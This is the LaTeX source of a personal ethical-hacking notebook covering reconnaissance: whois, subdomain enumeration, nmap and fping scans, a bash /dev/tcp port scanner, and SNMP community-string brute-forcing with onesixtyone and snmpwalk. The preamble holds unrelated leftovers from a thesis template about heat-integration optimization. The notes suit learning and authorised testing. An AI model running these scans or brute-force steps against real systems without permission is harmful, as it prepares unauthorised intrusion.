% This is the Reed College LaTeX thesis template. Most of the work
% for the document class was done by Sam Noble (SN), as well as this
% template. Later comments etc. by Ben Salzberg (BTS). Additional
% restructuring and APA support by Jess Youngberg (JY).
% Your comments and suggestions are more than welcome; please email
% them to cus@reed.edu
%
% See http://web.reed.edu/cis/help/latex.html for help. There are a
% great bunch of help pages there, with notes on
% getting started, bibtex, etc. Go there and read it if you're not
% already familiar with LaTeX.
%
% Any line that starts with a percent symbol is a comment.
% They won't show up in the document, and are useful for notes
% to yourself and explaining commands.
% Commenting also removes a line from the document;
% very handy for troubleshooting problems. -BTS

% As far as I know, this follows the requirements laid out in
% the 2002-2003 Senior Handbook. Ask a librarian to check the
% document before binding. -SN

%%
%% Preamble
%%
% \documentclass{<something>} must begin each LaTeX document
\documentclass{assets/ipesethesis}
% Packages are extensions to the basic LaTeX functions. Whatever you
% want to typeset, there is probably a package out there for it.
% Chemistry (chemtex), screenplays, you name it.
% Check out CTAN to see: http://www.ctan.org/
%
\usepackage{assets/ipesethesis}
\usepackage{assets/EPFLletter50}
%\usepackage{lua_styling}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% SOME COMMANDS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand\conclimits[1]{\textcolor{black}{\textbf{#1}}}
\hyphenation{Multi-}
\hyphenation{decision-making}
\newcommand{\sqrfinal}{\textcolor{teal}{$\blacksquare$}} % end mark
\newcommand{\setfont}[2]{{\fontfamily{#1}\selectfont #2}}
%\setfont{calligra}{This is Calligra font.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% ACRONYMS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newacronym{emat}   {$\Delta T_{min}$}  {heat exchanger minimum approach temperature}
\newacronym{adt}    {adt}   {air-dried tonnes}
\newacronym{chp}    {CHP}   {combined heat and power}
\newacronym{ga}     {GA}    {genetic algorithm}
\newacronym{gbd}    {GBD}   {generalized Benders decomposition}
\newacronym{gcc}    {GCC}   {grand composite curve}
\newacronym{gdp}    {GDP}   {generalized disjuctive programming}
\newacronym{ghg}    {GHG}   {greenhouse gas}
\newacronym{gwp}    {GWP}   {global warming potential}
\newacronym{hen}    {HEN}   {heat exchanger network}
\newacronym{himan}  {HIMAN} {heat-integrated mass allocation network}
\newacronym{hiwan}  {HIWAN} {heat-integrated water allocation network}
\newacronym{hld}    {HLD}   {heat load distribution}
\newacronym{hrat}   {HRAT}  {heat recovery approach temperature}
\newacronym{icc}    {ICC}   {integer-cut constraint}
\newacronym{lp}     {LP}    {linear programming}
\newacronym{men}    {MEN}   {mass exchange network}
\newacronym{mer}    {MER}   {minimum energy requirement}
\newacronym{milp}   {MILP}  {mixed-integer linear programming}
\newacronym{minlp}  {MINLP} {mixed-integer nonlinear programming}
\newacronym{moo}    {MOO}   {multi-objective optimization}
\newacronym{mpec}   {MPEC}  {mathematical programming with equilibrium constraints}
\newacronym{nim}    {NIM}   {non-isothermal mixing}
\newacronym{nlp}    {NLP}   {nonlinear programming}
\newacronym{orc}    {ORC}   {organic Rankine cycle}
\newacronym{sa}     {SA}    {simulated annealing}
\newacronym{sic}    {SIC}   {specific investment cost}
\newacronym{tac}    {TAC}   {total annualized cost}
\newacronym{whr}    {WHR}   {waste heat recovery}

\makeglossaries
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% CHAPTERS' NAME
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand{\thesistitle}           {Methodologies for simultaneous optimization of heat, mass, and power in industrial processes}

\newcommand{\intro}                 {Introduction}

\newcommand{\partone}               {The big trilemma:\\water--energy--waste nexus}
\newcommand{\partonetoc}            {The big trilemma: water--energy--waste nexus}

\newcommand{\partoneone}            {Survey of methodologies in \\ heat-integrated water allocation network}
\newcommand{\partoneonetoc}         {Survey of methodologies in heat-integrated water allocation network}

\newcommand{\partonetwo}            {Targeting methodology \\ with industrial application}
\newcommand{\partonetwotoc}         {Targeting methodology with industrial application}

\newcommand{\partonethree}          {Heat-integrated water allocation \\ network design}
\newcommand{\partonethreetoc}       {Heat-integrated water allocation network design}

\newcommand{\parttwo}               {Medium-temperature \\ heat recovery}
\newcommand{\parttwotoc}            {Medium-temperature heat recovery}

\newcommand{\parttwoone}            {Survey of methodologies in organic \\ Rankine cycle modeling and optimization}
\newcommand{\parttwoonetoc}         {Survey of methodologies in organic Rankine cycle modeling and optimization}

\newcommand{\parttwotwo}            {Optimal integration of organic Rankine \\ cycles in industrial processes}
\newcommand{\parttwotwotoc}         {Optimal integration of organic Rankine cycles in industrial processes}

\newcommand{\partthree}             {Towards the grand design}

\newcommand{\partthreeone}          {Holistic approaches: \\ background and motivation}
\newcommand{\partthreeonetoc}       {Holistic approaches: background and motivation}

\newcommand{\partthreetwo}          {Industrial application: kraft pulp mill}

\newcommand{\conc}                  {Concluding remarks}

\newcommand{\appendixLINEAR}        {Algorithm for outer and inner \\ approximation of thermal streams}
\newcommand{\appendixLINEARtoc}     {Algorithm for outer and inner approximation of thermal streams}

\newcommand{\appendixPARCOORD}      {Interactive parallel coordinate \\ visualization tool for fluid selection}
\newcommand{\appendixPARCOORDtoc}   {Interactive parallel coordinate visualization tool for fluid selection}

\newcommand{\appendixSOLVERSOPTIONS}{Assumptions and solver options for test cases}

\newcommand{\appendixTBDATA}        {Kraft pulp mill data}
  % include acronyms and also name of chapters

\usepackage{graphicx,latexsym}
\usepackage{amsmath}
\usepackage{amssymb,amsthm}
\usepackage{longtable,booktabs,setspace}
\usepackage{chemarr} %% Useful for one reaction arrow, useless if you're not a chem major
\usepackage[hyphens]{url}
% Added by CII
\usepackage{hyperref}
\usepackage{lmodern}
\usepackage{float}
\floatplacement{figure}{H}
% End of CII addition
\usepackage{rotating}

% Next line commented out by CII
%%% \usepackage{natbib}
% Comment out the natbib line above and uncomment the following two lines to use the new
% biblatex-chicago style, for Chicago A. Also make some changes at the end where the
% bibliography is included.
%\usepackage{biblatex-chicago}
%\bibliography{thesis}


% Added by CII (Thanks, Hadley!)
% Use ref for internal links
\renewcommand{\hyperref}[2][???]{\autoref{#1}}
\def\chapterautorefname{Chapter}
\def\sectionautorefname{Section}
\def\subsectionautorefname{Subsection}
% End of CII addition

% Added by CII
\usepackage{caption}
\captionsetup{width=5in}
% End of CII addition

% \usepackage{times} % other fonts are available like times, bookman, charter, palatino

% Syntax highlighting #22
  \usepackage{color}
  \usepackage{fancyvrb}
  \newcommand{\VerbBar}{|}
  \newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
  \DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
  % Add ',fontsize=\small' for more characters per line
  \usepackage{framed}
  \definecolor{shadecolor}{RGB}{248,248,248}
  \newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
  \newcommand{\AlertTok}[1]{\textcolor[rgb]{0.94,0.16,0.16}{#1}}
  \newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.77,0.63,0.00}{#1}}
  \newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\BuiltInTok}[1]{#1}
  \newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
  \newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
  \newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
  \newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\ErrorTok}[1]{\textcolor[rgb]{0.64,0.00,0.00}{\textbf{#1}}}
  \newcommand{\ExtensionTok}[1]{#1}
  \newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\ImportTok}[1]{#1}
  \newcommand{\InformationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
  \newcommand{\NormalTok}[1]{#1}
  \newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
  \newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
  \newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
  \newcommand{\RegionMarkerTok}[1]{#1}
  \newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\WarningTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}

% To pass between YAML and LaTeX the dollar signs are added by CII
\title{2021 - Hacking Notes}
\author{Lo0pInG 404}
% The month and year that you submit your FINAL draft TO THE LIBRARY (May or December)
\date{updated on 2021-07-22}
\division{}
\unitname{}{}{}
\advisor{}
\institution{}
\scholardegree{}
%If you have two advisors for some reason, you can use the following
% Uncommented out by CII
% End of CII addition

%%% Remember to use the correct department!
\department{}
% if you're writing a thesis in an interdisciplinary major,
% uncomment the line below and change the text as appropriate.
% check the Senior Handbook if unsure.
%\thedivisionof{The Established Interdisciplinary Committee for}
% if you want the approval page to say "Approved for the Committee",
% uncomment the next line
%\approvedforthe{Committee}

% Added by CII
%%% Copied from knitr
%% maxwidth is the original width if it's less than linewidth
%% otherwise use linewidth (to make sure the graphics do not exceed the margin)
\makeatletter
\def\maxwidth{ %
  \ifdim\Gin@nat@width>\linewidth
    \linewidth
  \else
    \Gin@nat@width
  \fi
}
\makeatother

\renewcommand{\contentsname}{Table of Contents}
% End of CII addition

\setlength{\parskip}{0pt}

% Added by CII

\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}

\Acknowledgements{

}

\Dedication{

}

\Preface{

}

\Abstract{

}

% End of CII addition
%%
%% End Preamble
%%
%

\begin{document}

% Everything below added by CII
  \maketitle

\frontmatter % this stuff will be roman-numbered
\pagenumbering{roman}
%\pagestyle{empty} % this removes page numbers from the frontmatter


  \begin{resume}
    \hypertarget{preface}{%
    \section*{Preface}\label{preface}}
    \addcontentsline{toc}{section}{Preface}
    
    \hypertarget{introduction}{%
    \subsection*{Introduction}\label{introduction}}
    \addcontentsline{toc}{subsection}{Introduction}
    
    This is my notebook while following some Hacking Ethical lectures, Writups, hacking channels and of course my own research during CTF's hacking.
    This notebook contains almost everything I have been confronted with and will finally a never ending.
    
    \hypertarget{acknoledgement}{%
    \subsection*{Acknoledgement}\label{acknoledgement}}
    \addcontentsline{toc}{subsection}{Acknoledgement}
    
    By the way, I would like to thanks S4vitar for his helpful course on Mastermind and also his content on Twitch and Youtube.
    I would like also to thanks INE.com for it's professional content.
  \end{resume}




% Muz \phantomsection \printglossary[type=\acronymtype,title = List of Acronyms,nonumberlist] \addcontentsline{toc}{chapter}{List of acronyms} \cleardoublepage


  \hypersetup{linkcolor=black}
  \setcounter{tocdepth}{1}
  \tableofcontents


\mainmatter % here the regular arabic numbering starts
\pagestyle{fancyplain} % turns page numbering back on

\hypertarget{preface-1}{%
\chapter*{Preface}\label{preface-1}}
\addcontentsline{toc}{chapter}{Preface}

\hypertarget{introduction-1}{%
\section*{Introduction}\label{introduction-1}}
\addcontentsline{toc}{section}{Introduction}

This is my notebook while following some Hacking Ethical lectures, Writups, hacking channels and of course my own research during CTF's hacking.
This notebook contains almost everything I have been confronted with and will finally a never ending.

\hypertarget{acknoledgement-1}{%
\section*{Acknoledgement}\label{acknoledgement-1}}
\addcontentsline{toc}{section}{Acknoledgement}

By the way, I would like to thanks S4vitar for his helpful course on Mastermind and also his content on Twitch and Youtube.
I would like also to thanks INE.com for it's professional content.

\hypertarget{part-information-gathering}{%
\part{Information Gathering}\label{part-information-gathering}}

\hypertarget{get-information-from-public-sources}{%
\chapter*{Get Information from public sources}\label{get-information-from-public-sources}}
\addcontentsline{toc}{chapter}{Get Information from public sources}

Information gathering allows Pentester to widen the attack surface, mount targeted attacks and sharpen attacker tools in preparation for the next phases.

\hypertarget{social-networks}{%
\section*{Social Networks}\label{social-networks}}
\addcontentsline{toc}{section}{Social Networks}

A good attacker will always start focusing on the weakest link in the security chain, \textbf{humans}. That's why checking information from Social networks like Linkdin,
Twitter, facebook, instagram and so on are very interesting.

\hypertarget{public-sites}{%
\section*{Public sites}\label{public-sites}}
\addcontentsline{toc}{section}{Public sites}

Social networks are not the only public source of information about companies. Other public databases can help attacker to find interesting information about the
compagny.

\href{https://www.crunchbase.com}{CrunchBase}

\begin{quote}
{[} ! {]} NOTE: also check government websites to get more information
\end{quote}

\hypertarget{whois}{%
\section*{Whois}\label{whois}}
\addcontentsline{toc}{section}{Whois}

\textbf{Whois} is a database that works as a command tool that use Domain name information to get Owner name, addresses, emails ant more\ldots{}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whois}\NormalTok{ apple.com}
\end{Highlighting}
\end{Shaded}

\hypertarget{check-personnal-victim-website}{%
\section*{Check personnal victim website}\label{check-personnal-victim-website}}
\addcontentsline{toc}{section}{Check personnal victim website}

Attacker will also of course check the client website to find information. They will also use typical corporate email format to check if emails are correct.

\hypertarget{passive-enumeration}{%
\section*{Passive Enumeration}\label{passive-enumeration}}
\addcontentsline{toc}{section}{Passive Enumeration}

Some public tools like \textbf{Google} can provide information for subdomains enumeration. In the google bar search if you type \texttt{site:\ company.org}, attackers
can find subdomains of a webapp.
This kind of enumeration is called \textbf{Passive} because attackers are not communicating directly with the victim but use internet or dns tools to get infos.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  \textbf{Google} with the site: option
\item
  \textbf{dnsdumpster.com}
\item
  \textbf{sublist3r} a tool that extends the capabilities of DNS enum
\item
  \textbf{virustotal.com} in the search tab
\item
  \textbf{crt.sh} use ssh certificate to find information
\item
  Check the ssl certificate of the website can also be interesting to find information
\item
  snap install amass,
  \texttt{bash\ \ amass\ -ip\ -d\ google.com}
\end{enumerate}

\hypertarget{part-enumeration}{%
\part{Enumeration}\label{part-enumeration}}

\hypertarget{server-enumeration}{%
\chapter*{Server Enumeration}\label{server-enumeration}}
\addcontentsline{toc}{chapter}{Server Enumeration}

\hypertarget{ping-for-network-connectivity}{%
\section*{Ping for Network connectivity}\label{ping-for-network-connectivity}}
\addcontentsline{toc}{section}{Ping for Network connectivity}

Ping is a simple tool that allows attackers to know if they can connect to a machine. Ping gives some other informations that can be helpfull.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 }\OperatorTok{<}\NormalTok{ip}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

the output looks like following:

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{# ouput}

\ExtensionTok{PING}\NormalTok{ 0.0.0.0 (127.0.0.1) }\ExtensionTok{56}\NormalTok{(84) }\ExtensionTok{bytes}\NormalTok{ of data.}
\ExtensionTok{64}\NormalTok{ bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms}

\ExtensionTok{---}\NormalTok{ 0.0.0.0 ping statistics ---}
\ExtensionTok{1}\NormalTok{ packets transmitted, 1 received, 0% packet loss, time 0ms}
\ExtensionTok{rtt}\NormalTok{ min/avg/max/mdev = 0.034/0.034/0.034/0.000 ms}
\end{Highlighting}
\end{Shaded}

If you see that you have 1 packet transmitted and 1 received, you know that you have an established connection to the server.
One relevant information that you can have with the \textbf{PING} tool is the ttl because this inoformation allows the attacker to
know the operating system of the server:

\begin{itemize}
\tightlist
\item
  ttl 64 -\textgreater{} Linux
\item
  ttl 128 -\textgreater{} Windows
\end{itemize}

Sometimes the number is not exactly 64 or 128 but is near to those numbers. It's because packets are traveling throw other servers
before accessing the victim server. If it's the case, you can check the trace route with the following command.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 }\OperatorTok{<}\NormalTok{ip}\OperatorTok{>}\NormalTok{ -R}
\end{Highlighting}
\end{Shaded}

\hypertarget{fping-to-enumerate-multiple-unknown-machines}{%
\section*{fping to enumerate multiple unknown machines}\label{fping-to-enumerate-multiple-unknown-machines}}
\addcontentsline{toc}{section}{fping to enumerate multiple unknown machines}

\textbf{fping} is a tool that extends the capabilities of ping in order to enumerate multiple machines in a network

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{fping}\NormalTok{ -a -g 192.168.1.0/24 }\OperatorTok{2>}\NormalTok{/dev/null }\OperatorTok{>}\NormalTok{ targets.txt}
\end{Highlighting}
\end{Shaded}

\hypertarget{nmap-for-machine-enumeration}{%
\section*{NMAP for Machine Enumeration}\label{nmap-for-machine-enumeration}}
\addcontentsline{toc}{section}{NMAP for Machine Enumeration}

NMAP is a tool that allows attackers to enumerate the victime machine to understand about wich kind of machine type, services, ports etc he will be confronted.

You can check the open ports of the server with the following command:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n }\OperatorTok{<}\NormalTok{ip}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  The -p- option is to tell nmap to check the all 65535 ports of the server
\item
  --open is the option to tell nmap to return only the ports that are open
\item
  -T\{1,2,3,4,5\} is the option to adjust timing to aggressive mode (1 lowest and 5 biggest aggressivity)
\item
  -v is for being in a verbose mode (output result as soon as a port is open)
\item
  -n is for telling nmap to not apply dns resolution
\end{itemize}

you can check the speed of the scan by pressing multiple time the enter key. If you think that the scan is to slow, you can manage the minimum number of packets should
send per second. If you use this option, it's no more necessary to use the \textbf{-T\{1,2,3,4,5\}} option

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- -sS --min-rate 5000 --open -vvv -n -Pn }\OperatorTok{<}\NormalTok{ip}\OperatorTok{>}\NormalTok{ -oG allPorts}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  The -sS option tells nmap to do a stealth scan with tcp syn port scan
\item
  --min-rate 5000 is for telling nmap to send a minimum of 5000 packets per second
\item
  -vvv is a triple verbose mode to retrieve more information
\item
  -n to not apply dns resolution
\item
  -Pn for treat all hosts as online -- skip host discovery
\item
  -o\{A,X,N,G\} is to select the output format A for all formats, X for xml, N for the nmpa format and G for Grepeable format
\end{itemize}

As soon as the attacker knows the ports used by the server, you can tell nmap to run enumeration scripts to those ports

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sC -sV -p}\OperatorTok{<}\NormalTok{ports}\OperatorTok{>} \OperatorTok{<}\NormalTok{ip}\OperatorTok{>}\NormalTok{ -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  -sC stands for activate the Nmap Scripting Engine. -sC performs a script scan using the default set of scripts (it's the same as --script=default)
\item
  -sV stands for script of version detection
\end{itemize}

\hypertarget{port-scanner-with-bash}{%
\section*{Port scanner with bash}\label{port-scanner-with-bash}}
\addcontentsline{toc}{section}{Port scanner with bash}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\KeywordTok{function}\FunctionTok{ ctrl_c()}\KeywordTok{\{}
    \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[!] exit..."}
    \ExtensionTok{tput}\NormalTok{ cnorm}\KeywordTok{;} \BuiltInTok{exit}\NormalTok{ 1}
\KeywordTok{\}}

\CommentTok{# Ctrl+C}
\BuiltInTok{trap}\NormalTok{ ctrl_c intrusive}

\ExtensionTok{tput}\NormalTok{ civis}
\KeywordTok{for} \ExtensionTok{port}\NormalTok{ in }\VariableTok{$(}\FunctionTok{seq}\NormalTok{ 1 65535}\VariableTok{)}\KeywordTok{;} \KeywordTok{do}
    \ExtensionTok{timeout}\NormalTok{ 1 bash -c }\StringTok{"echo '' > /dev/tcp/10.10.10.11/}\VariableTok{$port}\StringTok{"} \OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{&&} \BuiltInTok{echo} \StringTok{"[+] Port }\VariableTok{$port}\StringTok{ - OPEN"} \KeywordTok{&}
\KeywordTok{done}\NormalTok{; }\BuiltInTok{wait}
\ExtensionTok{tput}\NormalTok{ cnorm}
\end{Highlighting}
\end{Shaded}

\hypertarget{use-specific-or-grouped-nmap-script-for-enumeration}{%
\section*{Use specific or grouped nmap script for Enumeration}\label{use-specific-or-grouped-nmap-script-for-enumeration}}
\addcontentsline{toc}{section}{Use specific or grouped nmap script for Enumeration}

first you need to update de system database in order to syncronize every files at system level in a database. That helps tools like
\textbf{locate} to find files in the machine. The files we want to search are the .nse scripts of nmap and look for them categories.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{updatedb}
\FunctionTok{locate}\NormalTok{ .nse }\KeywordTok{|} \FunctionTok{wc}\NormalTok{ -l }\CommentTok{# to check the number of scripts}
\FunctionTok{locate}\NormalTok{ .nse}
\FunctionTok{locate}\NormalTok{ .nse }\KeywordTok{|} \FunctionTok{xargs}\NormalTok{ grep }\StringTok{"categories"}
\FunctionTok{locate}\NormalTok{ .nse }\KeywordTok{|} \FunctionTok{xargs}\NormalTok{ grep }\StringTok{"categories"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'".*?"'}
\FunctionTok{locate}\NormalTok{ .nse }\KeywordTok{|} \FunctionTok{xargs}\NormalTok{ grep }\StringTok{"categories"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'".*?"'} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u }\KeywordTok{|} \FunctionTok{wc}\NormalTok{ -l}
\FunctionTok{locate}\NormalTok{ .nse }\KeywordTok{|} \FunctionTok{xargs}\NormalTok{ grep }\StringTok{"categories"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'".*?"'} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u}
\CommentTok{#Output}
\StringTok{"auth"}
\StringTok{"broadcast"}
\StringTok{"brute"}
\StringTok{"default"}
\StringTok{"discovery"}
\StringTok{"dos"}
\StringTok{"exploit"}
\StringTok{"external"}
\StringTok{"fuzzer"}
\StringTok{"intrusive"}
\StringTok{"malware"}
\StringTok{"safe"}
\StringTok{"version"}
\StringTok{"vuln"}
\end{Highlighting}
\end{Shaded}

You can then run nmap with scripts from specific categories.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p445 10.10.10.40 --script }\StringTok{"vuln and safe"}\NormalTok{ -oN smbScan}
\end{Highlighting}
\end{Shaded}

\hypertarget{search-for-port-with-udp-protocol}{%
\section*{Search for port with udp protocol}\label{search-for-port-with-udp-protocol}}
\addcontentsline{toc}{section}{Search for port with udp protocol}

Sometimes the standard enumeration that you do with nmap will not give you the entire list of open ports and that can be because
some ports are open by \textbf{udp} and not \textbf{tcp}.

You can still use \textbf{nmap} to check those ports with the \texttt{-sU} argument, but you have to know that the scan will take a while so you can check for a small range of ports or for
kown services port number that can help the attacker like the 161 for snmp and the port 69 for tftp.

\begin{itemize}
\item
  Check small range of ports

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p 1-1000 --open -T5 -sU -v 10.10.10.10}
\end{Highlighting}
\end{Shaded}
\item
  Check for specific port

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p161 --open -T5 -sU -v 10.10.10.10}
\end{Highlighting}
\end{Shaded}
\end{itemize}

Other tools can help attackers to reach information of services like the snmp one.

\hypertarget{get-snmp-community-string-with-onesixtyone}{%
\subsection*{Get snmp community string with onesixtyone}\label{get-snmp-community-string-with-onesixtyone}}
\addcontentsline{toc}{subsection}{Get snmp community string with onesixtyone}

\textbf{onesixtyone} is a tool that will make active enumeration of the snmp service by bruteforcing with community strings in order to find the right community string.
But why is it so interesting to get this famous community string? Because as soon as the attacker knows this community string, he can enumerate internal services and
privileges information of the machine.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{onesixtyone}\NormalTok{ 10.10.10.10}

\CommentTok{#Output}

\ExtensionTok{10.10.10.10}\NormalTok{ [public]}
\end{Highlighting}
\end{Shaded}

In this case onesixtyone find that the community string used is the public one.
By default, onesixtyone only try the two most common community strings that are public and private. But there is more community strings possibilities and
onesixtyone can use a dictionnary to bruteforce the community strings.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{onesixtyone}\NormalTok{ -c /opt/SecLists/Discovery/SNMP/common-snmp-community_strings.txt 10.10.10.10}
\end{Highlighting}
\end{Shaded}

\hypertarget{enumerate-internal-services-and-processes-with-snmpwalk}{%
\subsection*{Enumerate internal services and processes with snmpwalk}\label{enumerate-internal-services-and-processes-with-snmpwalk}}
\addcontentsline{toc}{subsection}{Enumerate internal services and processes with snmpwalk}

\textbf{snmpwalk} is an enumeration tool take advantage of snmp vulnerability as soon as the attacker knows the community string.
The output of snmpwalk is not easy to understand and it's recommended to first install snmp-mibs-downloader.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  install snmp-mibs-downloader

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ apt install snmp-mibs-downloader}
\end{Highlighting}
\end{Shaded}
\item
  comment mibs: in snmp.conf to configure snmp-mibs-downloader in order to be used with snmpwalk

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ /etc/snmp/snmp.conf}

\CommentTok{# mibs:}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

You can now run snmpwalk and use the community string find by \textbf{onesixtyone} with the \texttt{-c} argument.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{snmpwalk}\NormalTok{ -c public -v2c 10.10.10.10}
\end{Highlighting}
\end{Shaded}

\hypertarget{enumerate-internal-services-and-processed-with-nmap-scripts}{%
\subsection*{Enumerate internal services and processed with nmap scripts}\label{enumerate-internal-services-and-processed-with-nmap-scripts}}
\addcontentsline{toc}{subsection}{Enumerate internal services and processed with nmap scripts}

As you already know \textbf{Nmap} have a lot of scripts and some of them are very usefull for enumerating snmp service.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ .nse }\KeywordTok{|} \FunctionTok{grep} \StringTok{"snmp"}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/nmap-snmp-scripts} \caption{nmap snmp scripts}\label{fig:unnamed-chunk-2}
\end{figure}

Interesting scripts are the \texttt{snmp-processes} or the \texttt{snmp-interfaces}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script snmp-processes -p161 -sU 10.10.10.10 -v -oN processesSNMP}
\FunctionTok{nmap}\NormalTok{ --script snmp-interfaces -p161 -sU 10.10.10.10 -v -oN interfaces}
\end{Highlighting}
\end{Shaded}

\hypertarget{ipv6-enumeration}{%
\section*{IPV6 enumeration}\label{ipv6-enumeration}}
\addcontentsline{toc}{section}{IPV6 enumeration}

\hypertarget{ping-a-machine-with-its-ipv6-address}{%
\subsection*{Ping a machine with it's ipv6 address}\label{ping-a-machine-with-its-ipv6-address}}
\addcontentsline{toc}{subsection}{Ping a machine with it's ipv6 address}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -6 -c1 dead:beef::0250:56ff:feb9:dbf3}
\end{Highlighting}
\end{Shaded}

